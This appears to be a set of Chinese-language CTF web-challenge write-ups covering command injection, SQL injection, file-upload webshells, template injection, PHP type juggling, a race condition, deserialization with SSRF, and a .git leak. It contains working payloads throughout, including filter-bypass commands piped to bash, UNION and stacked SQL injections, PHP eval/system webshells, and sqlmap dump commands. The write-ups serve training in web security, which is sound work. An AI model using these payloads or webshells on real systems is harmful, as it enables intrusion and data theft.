# CTF WP-WEB

---

## [ACTF2020 新生赛]Exec

### 题解：




### 总结：

可能需要查看多级目录，多试试

### 补充知识：

;直接分号分隔

管道符：作用和&一样。前面和后面命令都要执行，无论前面真假

| 按位或

作用是直接执行|后面的语句

|| 逻辑或

作用是如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句

& 按位与

&前面和后面命令都要执行，无论前面真假

&& 逻辑与

如果前面为假，后面的命令就不执行，如果前面为真则再执行后面命令，这样两条命令都会被执行

---

## [GXYCTF2019]Ping Ping Ping

### 题解：

[【BUUCTF】[GXYCTF2019] Ping Ping Ping 总结笔记 Writeup-CSDN博客](https://blog.csdn.net/vanarrow/article/details/108295481)

命令联合执行：
```sh
;     前面的执行完执行后面的
|     管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）         
||    当前面的执行出错时（为假）执行后面的
&     将任务置于后台执行
&&    前面的语句为假则直接出错，后面的也不执行，前面只能为真
%0a  （换行）
%0d  （回车）
```

命令绕过空格的方法：
```sh
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）

ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以ca\t /fl\ag

```

将`cat flag.php`转为base64编码后进行绕过:
```
Y2F0IGZsYWcucGhw
```
进行绕过：
```sh
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

其他的类似绕过
```sh
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
```

常用的通配符如下：




### 总结：

使用到了命令绕过、内联执行等技术，参考题解中的ab变量使用进行绕过字符匹配或使用base64编码绕过明文匹配

---

## [强网杯 2019]随便注

### 题解：

由于select关键字被过滤，故使用堆叠注入，通过一步步的查询可以找到flag算在的位置为1919810 table中的一个column，通过使用concat构造动态查询获取flag具体内容

[BUUCTF [强网杯 2019]随便注 1（两种方法）-CSDN博客](https://blog.csdn.net/m0_62879498/article/details/123292860)

给出的答案如下：

```
-1';use supersqli;set @sql=concat('s','elect flag from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1-- q
```

通过自己尝试仿照答案实现的注入如下：

```
1';use supersqli;set @tmp=concat('s','elect flag from `1919810931114514`');PREPARE temp from @tmp;EXECUTE temp ;
```

或是通过修改表名的操作实现：

```
1';rename table words to word2;rename table `1919810931114514` to words;

ALTER TABLE words ADD id int(10) DEFAULT '12';

ALTER TABLE words CHANGE flag data VARCHAR(100);-- q
```

然后通过构造1' or 1=1;实现

### 总结：

其中set @变量名= concat这一步操作中变量一定是以@开头的，并且在每一个堆叠的语句后面都要加上;进行分割

对于纯数字或是不符合命名标准的表名要加上``进行区分

---

## [极客大挑战 2019]LoveSQL

### 题解：


简单的sql注入，没什么好说的，用户名就是admin


但是这并不是flag，具体解题思路如下：

[[极客大挑战 2019]LoveSQL 1-CSDN博客](https://blog.csdn.net/satasun/article/details/106246493)

username=admin' order by 4%23&password=1通过盲注可知没有第四列，即只有三列

```
/check.php?username=1' union select 1,2,3%23&password=1
```

通过下面的union查询测试回显点位，得到可进行操作的点位为2和3，因此，通过下面的语句查询数据库和版本：

```
/check.php?username=1' union select 1,database(),version()%23&password=1
```

通过这个语句获取当前所在的数据库中的表有哪些：

```
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```


```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

进一步查询指定的表中的列有哪些：

```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```


可见在l0ve1ysq1这个表中有如上三个字段

最后查询字段的内容：

```
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```


---

## [极客大挑战 2019]Secret File

### 题解：

查看网页元素后发先有一个action.php文件可以访问，但是每当我们访问的时候，他总会跳转到其他end.php的位置，通过网页抓包并进行重放得如下内容：


可以发现注释了一个文件，打开后如下：


代码审计后想要代开flag.php查看，结果：


需要使用filter协议过滤

例如：

```php
$file=php://filter/convert.base64-encode/resource=/flag
```

可以直接查看 flag 文件的内容


最后进行解密：


---

## [MRCTF2020]你传你****🐎****呢

### 题解：

使用.htaccess针对Apache进行修改，AddType application/x-httpd-php .png

将之后上传的所有png文件以php形式执行

通过蚁剑进行连接，在目录中找到flag

---

## [极客大挑战 2019]Upload

### 题解：

php会被过滤，因此使用phtml格式是现在

GIF89a  //习惯在文件前加上GIF89a来绕过PHP getimagesize的检查，这道题中有无皆可

<script language='php'>@eval($_POST[shell]);</script>

尝试访问路径/upload验证文件所在地后进行调用

使用蚁剑连接，在根目录下找到flag

---

## [MoeCTF 2022]Sqlmap_boy

https://www.nssctf.cn/problem/3350

* 考点：sql注入
* 工具：sqlmap,burpsuit

浏览器F12查看源码，发现有提示，根据提示的sql格式对输入进行闭合操作，注意引号类型不同无法闭合；成功闭合后跳转到可注入连接，注意到有一个id变量可供注入，使用sqlmap构建命令；使用参数-dump直接输出数据库的所有具体表项内容，找到flag

sqlmap的-dump很好用，同时对于登录后的sql注入需要注意使用sqlmap时使用Cookie保持session

参考使用指南：
https://blog.csdn.net/qq_45719090/article/details/129241110
https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/

---

<!-- ## [HDCTF 2023]LoginMaster

https://www.nssctf.cn/problem/3782

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解
---
## [第五空间 2021]yet_another_mysql_injection

https://www.nssctf.cn/problem/334

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解
--- -->

## [LitCTF 2024]一个....池子？

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：fenjing

- [ ] 完全理解

使用工具 `fenjing`，直接对可绕过链接进行操作，绕过成功后即可进行过命令操控

fenjing工具：https://github.com/Marven11/FenJing

---

## [GDOUCTF 2023]受不了一点

https://www.nssctf.cn/problem/3727

* 考点：弱比较，数组绕过，php审计
* 工具：yakit(burpsuit/hackbar等都可以)

### 题解部分：

题目直接给出了一个php代码，代码如下：


审计 `php`代码可以知道，这个代码是通过多个 `if`语句进行条件判断来隐藏flag信息，只要一层层按照 `if`的要求完成即可

下面是对代码有用部分的简单解读：

```php
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
```

检查 POST 请求是否包含 `gdou` 和 `ctf` 两个字段并将这两个字段分别赋值给 `$a` 和 `$b`。

**在满足了上述代码的 `if`条件后，即存在需要的那两个字段才能继续下面的部分，所以需要我们去在 `POST`包中添加两个指定的字段名称**

```php
if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
```

代码首先检查 `gdou` 和 `ctf` 是否相等（`$_POST['gdou']!=$_POST['ctf']`）以及两个字段的 MD5 哈希值是否相同,如果它们的字段值不同并且哈希值相同，则允许继续执行下面的内容。

**这里用到的是md5绕过，PHP 中的 `md5()`函数允许你使用数组作为该函数的参数，`md5()` 函数对于任何数组都将返回 `NULL`,所以，可以构建 `gdou[]=1&ctf[]=2`**

```php
if(isset($_COOKIE['cookie'])){
   if ($_COOKIE['cookie']=='j0k3r'){
```

代码检查是否有名为 `cookie` 的 Cookie，并且其值为 `'j0k3r'`满足条件则进入下一个代码块则继续执行。

**在POST包中添加 `Cookie：cookie=j0k3r`即可。**

```php
if(isset($_GET['aaa']) && isset($_GET['bbb'])){
    $aaa=$_GET['aaa'];
    $bbb=$_GET['bbb'];
```

检查 URL 参数中是否包含 `aaa` 和 `bbb`,如果都有则继续.

**所以我们要在 `url`即 `header`部分添加 `/?aaa&bbb`的部分，其具体的值下面会给出。**

```php
if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
    $give = 'cancanwordflag';
    $get ='hacker!';
```

如果 `aaa` 和 `bbb` 的值都为 `114514`，并且 `aaa` 不等于 `bbb`那么设置两个变量 `$give` 和 `$get`，分别为 `'cancanwordflag'` 和 `'hacker!'`。

**这里用到了php代码中弱比较 `==`的特点，因此可以构造 `/?aaa=114514&bbb=114514a`来满足要求**

```php
echo $flag;
```

最后，如果代码成功运行到了这里，则输出 `$flag` 变量的值。

**整体来看，其实是套了5层 `if`语句的闯关游戏，全部按要求完成即可。**

最后得到的如下的 `POST`包:


这里还要注意一个细节，由于我们使用的是POST请求，所以需要指定 `Content-Type: application/x-www-form-urlencoded`,表单字段的名称和值会以 `key=value`的形式组成字符串，多个字段之间通过 `&`符号连接，且特殊字符会被 `URL`编码，这样 `$_POST['gdou']`才能读取到.

### `php`中弱比较的总结：

- 在 PHP 中，**字符串与数字比较时，字符串会被自动转换为数字**（如果可能的话）。
- **PHP 会对字符串进行类型转换**，将其从 `string` 转换为 `int` 或 `float`，如果转换失败则默认为 `0`。
- **`==`（弱比较）会进行类型转换**，而 **`===`（严格比较）不会**，严格比较时要求类型和值都相同。

1. **字符串与数字的比较原则**

PHP 在进行字符串和数字比较时，会尝试将字符串转换为数字类型。具体规则如下：

- 如果字符串的开始部分是一个有效的数字，PHP 会将其转换为该数字。例如，`"123abc"` 会被转换为 `123`，而 `"abc123"` 会被转换为 `0`。
- 如果字符串不包含有效的数字，则会被转换为 `0`。

2. **比较规则示例**

- **数字字符串与数字的比较**

```php
'123' == 123  // true，字符串 '123' 被转换为数字 123，与数字 123 比较，结果为相等
```

- **包含非数字字符的字符串与数字的比较**

```php
'123abc' == 123  // true，字符串 '123abc' 被转换为数字 123
'abc123' == 0    // true，字符串 'abc123' 被转换为数字 0
```

- **字符串与数字不等的比较**

```php
'0' == 0        // true，字符串 '0' 被转换为数字 0，与数字 0 比较
'0.1' == 0      // true，字符串 '0.1' 被转换为数字 0.1，与数字 0 比较，结果为不相等
'123abc' == 123 // true，字符串 '123abc' 被转换为数字 123
```

- **字符串完全无法转换为数字的情况**

```php
'hello' == 0    // true，字符串 'hello' 无法转换为数字，PHP 会把它转换为 0，所以等价于 0 == 0
```

3. **弱比较 `==` 与严格比较 `===` 的区别**

- **`==`（弱比较）**：PHP 会尝试将操作数转换为相同的类型后再进行比较。例如，数字和字符串之间的比较会发生类型转换，如前面的例子所示。
- **`===`（严格比较）**：PHP 在进行严格比较时，会比较变量的类型和内容，只有类型和值都相同才会返回 `true`。

**示例：**

```php
'123' == 123      // true，'123' 被转换为数字 123
'123' === 123     // false，字符串和数字类型不同
```

**特殊情况**

由于 PHP 的类型转换行为，可能会遇到一些不符合直觉的比较结果。例如：

```php
'1' == true       // true，因为字符串 '1' 被转换为数字 1，而 true 也转换为 1
'0' == false      // true，因为字符串 '0' 被转换为数字 0，而 false 也转换为 0
```

---

## [NISACTF 2022]midlevel

https://www.nssctf.cn/problem/3727

* 考点：SSTI, Smarty, PHP
* 工具：yakit

本题考查SSTI模板注入，进入开启的容器后，发现是一个获取自身IP的API，页面如下：


由最下方的信息可知这里使用 `Smarty`模板引擎，通过给出的AIP地址，发现无法访问，但是在这个页面中，右上角又显示出了我们电脑的IP地址

可以猜测用到的是 `XFF`，在 `Yakit`中进行测试，修改XFF标签的内容


发生了下面的结果变动


进一步确认的之前的猜想，这里存在 `SSTI`，接下来猜测应该需要通过这个漏洞去执行 `shell`命令，获取系统中的flag文件

在PHP中，直接执行 `shell`命令可以使用下面的代码结构：

```php
system('cmd')
```

据此替换XFF的值为

```php
{system('cat /flag')}#一般默认flag在根路径下
```


即得到了 `flag`


还有一种方法利用的是 `Smarty`的 `{if}`标签，`{if}`标签可以在里面执行 `php`代码，所以也可以将 `XFF`的内容替换为下面的：

```php
{if system('cat /flag')}{/if}
```

更详细的SSTI内容见下面的博客：

[PHP的模板注入（Smarty模板）_smarty模板注入-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107556915)

[1. SSTI（模板注入）漏洞（入门篇） - bmjoker - 博客园](https://www.cnblogs.com/bmjoker/p/13508538.html)

---

## [GWCTF 2019]你的名字

https://www.nssctf.cn/problem/259

* 考点：SSTI,Flask,Jinja2
* 工具：

进入容器网页后通过浏览器的F12可一发现使用的请求方式为 `POST`，并且字段名称为 `name`，由此，可以使用 `fenjing`去直接进行绕过wap，执行指令找到flag

一开始执行

```bash
cat /flag
```

发现没有结果，猜测flag应该不在根目录，于是 `ls`查看根目录情况:

```bash
ls /
```


发现一个 `flag_1s_Hrea`的文件，打开查看后是告诉我们flag在环境变量中，于是继续执行下面的命令得到flag

```bash
printenv
```


---

## [SWPUCTF 2021 新生赛]easy_sql

https://www.nssctf.cn/problem/387

* 考点：sql注入
* 工具：sqlmap

进入题目的网页后可以发现网页标题已经告诉了你注入的参数是 `wllm`，所以接下来可以直接使用 `sqlmap`扫描尝试注入

```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1
```


根据扫描结果可知存在 `bool盲注`，直接使用--dump参数查看数据库内容

```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1 --dump
```


---

## [SWPUCTF 2021 新生赛]jicao

* 考点：PHP审计，请求头
* 工具：python

`index.php`源码如下下：

```php
<?php
highlight_file('index.php');
include("flag.php");
$id=$_POST['id'];
$json=json_decode($_GET['json'],true);
if ($id=="wllmNB"&&$json['x']=="wllm")
{echo $flag;}
?>
```

其中代码要求上传的请求包中含有和 `POST`匹配的的 `id=="wllmNB"`以及和 `GET`匹配的 `json['x']=="wllm"`,构建下面的python代码即可：

```python
import requests

url = "http://node7.anna.nssctf.cn:29822/"
params = {"json": '{"x":"wllm"}'}  # 传递 JSON 格式的 GET 参数
data = {"id": "wllmNB"}  # 传递 POST 参数

response = requests.post(url, params=params, data=data)
print(response.text)  # 期待返回 flag
```

## [FSCTF 2023]加速加速

https://www.nssctf.cn/problem/4629

* 考点：条件竞争
* 工具：yakit/burpsuit

文件再上传到upload目录后才进行条件判定，当不符合条件就会被删除，但是这个过程中可以执行上传的还没有来得及删掉的代码

先抓包分别获取get和排post请求包以便后续修改

post中替换请求体为：

```php
<?php file_put_contents('succ.php', '<?php system($_GET["cmd"]); ?>'); ?>
```

通过yakit多线程上传10000次，然后另开一个fuzz进行多个get请求获取上传的php去执行

然后在网页端对cmd变量进行操作，`ls` 查询到 flag 是在根目录下，直接 `cat`获取



---

## [网鼎杯 2018]Fakebook

https://www.nssctf.cn/problem/20

* 考点：sql注入

sql注入考点：

`order by ` 注入 获取数据库查询的列数

联合查询注入

```
SELECT * FROM some_table WHERE no = 0
UNION
SELECT 1, GROUP_CONCAT(table_name), 3, 4
FROM information_schema.tables
WHERE table_schema = database();
```

该查询可以用来获得当前使用的数据库中的表都有哪些，`table_schema`表示当前查询的表所属的数据库的名称，`information_schema.tables`包含了数据库中的所有表的信息，`database()`会返回当前使用的数据库的名称，`GROUP_CONCAT(table_name)`会返回当前数据库中所有表的名称，以逗号分隔

```
SELECT * FROM some_table WHERE no = 0
UNION
SELECT 1, GROUP_CONCAT(column_name), 3, 4
FROM information_schema.columns
WHERE table_schema = database() AND table_name = 'users';
```

和前面的一样，在已经知道表名的基础上进一步查询该表中的列名

```php
function get($url)
```

一种SSRF攻击的例子，攻击者可以提交 `url`来让服务器去访问其本身的内容（外部无权访问的内容）

```
file://
```

为协议可以用于访问文件的内容

因此可以根据这些技巧去尝试，首先在各个页面来回点击和查看的过程中已经发现了 `view.php?no=0`为可注入点，通过 `sqlmap`扫描无果后决定采用盲注去获取更多的信息

在进行联合查询的过程中，发现其列最多有 4 列，也就证明联合查询注入是可行的，由此，进一步构建 payload 得到当前所使用的数据库的表名和列名





然后通过之前检查 `robots.txt`的内容得到了一个 php 源码文件，通过代码审计发现是一个关于反序列化的题目，而且根据经验可以猜测 flag 就在网页的根目录下，于是最后构建了下面的 payload 进行最后的注入攻击的

```
view.php?no=1%20union/**/select%20%201,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

在进行攻击后查看网页的源码，发现已经回显了 flag 文件内容



解码得到 flag

---

## [西湖论剑 2022]Node Magical Login

https://www.nssctf.cn/problem/3429

* 考点：cookie,NodeJS,代码审计
* 工具：yakit

代码需要自行去下载

[源码](https://github.com/CTF-Archives/2022-xhlj-web-node_magical_login)

通过阅读源码可以知道，网站用户名只能为 admin，并且对于每一次的登录都会随机生成一个密码，所以直接通过注入无法登录成功，但在源码中，cookie认证已经泄露：



再继续往下看，发现当 cookie 的值为其中的一个时便可以有权访问 flag1 和 flag2 ，得到其明文内容，于是可以以构建下面的数据包进行请求得到 flag


补充：数组比较可以绕过强制转小写操作，可将下面的内容作为 post 的请求体发送：

```
{
	
	     		"checkcode":["a",
"G",
"r",
"5",
"A",
"t",
"S",
"p",
"5",
"5",
"d",
"R",
"a",
"c",
"e",
"r"
]
}

```

---

## [NCTF 2018]全球最大交友网站

https://www.nssctf.cn/problem/961

* 考点：.git泄露
* 工具：git

进入网页发现可以访问文件目录，下载 zip 解压后是一个 .git 文件夹，在终端中使用 git 命令可以查看其具体信息：



```sh
git log #查看提交历史
git status #查看项目状态
